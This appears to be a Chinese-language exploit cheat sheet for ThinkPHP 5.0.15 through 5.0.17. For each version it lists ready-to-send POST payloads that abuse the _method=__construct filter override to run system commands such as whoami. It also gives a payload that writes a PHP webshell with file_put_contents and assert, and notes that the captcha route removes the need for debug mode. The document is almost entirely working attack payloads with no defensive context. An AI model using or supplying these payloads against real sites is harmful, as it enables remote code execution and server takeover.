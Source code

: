 ```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
## 5.0.15
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
## 5.0.16
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
## 5.0.17
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```